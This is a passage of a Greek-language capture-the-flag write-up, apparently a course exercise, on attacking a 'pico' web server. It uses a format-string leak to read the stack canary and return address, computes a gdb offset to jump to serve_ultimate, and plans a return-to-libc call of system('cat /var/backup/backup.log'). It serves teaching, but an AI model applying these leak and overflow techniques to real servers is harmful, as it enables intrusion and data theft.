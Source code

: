 ```
Παρατηρούμε από τις εκτυπώσεις του $ebp και του $esp το μέγεθος του frame της συνάρτησης check_auth είναι **104/4 = 27 words**. Άρα το return address της συνάρτησης θα βρισκόταν 28 words από τον $esp. Όμως παρατηρούμε από την assembly πως η συνάρτηση printf μεγαλώνει την στοίβα κατά 3 words, με αποτέλεσμα να δώσουμε σαν input της print (**"%08x" * 31**). <br>

![2](https://i.ibb.co/d7wTMcH/Screenshot-2021-07-16-09-35-56.png) <br>


Η παραπάνω φωτογραφία δείχνει αναλυτικότερα το ότι πριν την κλήση της printf το return address της συνάρτησης είναι 28 λέξεις πάνω από τον $esp. Tο αποτέλεσμα των δεδομένων της στοίβας μετά το curl request είναι όπως φαίνεται παρακάτω. <br>
```
  Stack Data:

  ['5656d330', '0000009a', '56556cdc', '00000000', '00000000', '5655d4b9', '5655a180', '00000000', '00000000', '5656d330', '0000009a', '00000000', '00000001', '5656d330', '00000000', '565581d1', '0000009a', '00000000', '00000000', '00000000', '00000000', '00000000', '00000000', '00000000', '00000000', '00000000', '60be5800', 'f7cefd20', '56559f10', 'ffffcc88', '5655689d']

  saved_ebp: ffffcc88 // 30ο
  ret_address: 5655689d // 31ο
  canary: 60be5800 // 27ο
  word_after_canary: 56559f10 // 29ο

```

Άρα γνωρίζοντας πως το return address της check auth ισούται με **5655689d** προσθέτοντας 325 (δηλαδή την απόσταση του call <serve_ultimate> απο το πραγματικό return address), επιστρέφουμε στο σημείο που η route καλεί την serve_ultimate. Τα παραπάνω offsets είναι ίδια και στο πραγματικό μηχάνημα που τρέχει ο pico server. <br>

```
  ~ Πώς προκύπτει το 325 ~
  
  (gdb) x/i 0x565569e2
     0x565569e2 <route+443>:      call   0x5655717d <serve_ultimate>
  (gdb) x/i 0x5655689d
     0x5655689d <route+118>:      add    $0x10,%esp
```

Όλα τα παραπάνω συνοψίζονται στο script [question3.py](https://github.com/mansstiv/Capture-The-Flag/blob/master/src/question3_4_5/question3.py), το οποίο αφού τρέξαμε πήραμε τα δεδομένα του **/var/www/pico/ultimate.html**.

```
  <pre>
  Thanks for the coins, I knew I can do business with you.

  Your ssh access to the server should be restored, you can find your
  files under /var/backup/ (see 'backup.log' for a list).

  To avoid losing your files again, hire us!
  5l0ppy 8uff00n5 can help you fix all your security issues.
  Use the code tmmt8pN_lj4 to get 20% off our usual rates!
  </pre>
```
## Ερώτημα 4

Έχοντας βρει από το προηγούμενο ερώτημα την πληροφορία πως τα αρχεία του Plan Y βρίσκονται στην τοποθεσία **/var/backup/backup.log**, είχαμε ως νέο στόχο να εξάγουμε τις πληροφορίες του αρχείου αυτού. Αυτό θα μπορούσαμε να το επιτύχουμε με ένα νέο **buffer overflow attack**, μόνο που αυτήν την φορά κάνοντας override το return address, θα καλούσαμε την συνάρτηση **system("cat /var/backup/backup.log")**, αντί της serve_ultimate. Το συγκεκριμένο attack είναι γνωστό στην βιβλιογραφία και ως **Return-to-libc attack** και είναι ο τρόπος να προσπεράσουμε το non-executable stack protection.

### Ανάλυση επίθεσης
```
